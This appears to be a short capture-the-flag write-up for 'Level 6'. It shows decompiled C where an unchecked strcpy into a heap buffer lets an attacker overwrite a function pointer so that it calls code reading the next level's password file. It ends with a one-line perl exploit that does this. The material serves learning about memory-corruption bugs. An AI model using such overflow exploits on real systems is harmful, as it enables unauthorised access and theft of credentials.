 # Level 6

## the code:

decompiled with Hex-Rays (https://dogbolt.org/)

```c
//----- (08048454) --------------------------------------------------------
int n()
{
  return system("/bin/cat /home/user/level7/.pass");
}

//----- (08048468) --------------------------------------------------------
int m()
{
  return puts("Nope");
}

//----- (0804847C) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int (**v4)(void); // [esp+18h] [ebp-8h]
  char *v5; // [esp+1Ch] [ebp-4h]

  v5 = (char *)malloc(0x40u);
  v4 = (int (**)(void))malloc(4u);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}
```

## the goal:

replace m() by n() in v4. Therefore we will overflow v5.

## the hack:

```sh
$ ./level6 $(perl -e 'print"\x54\x84\x04\x08" x 19')
```
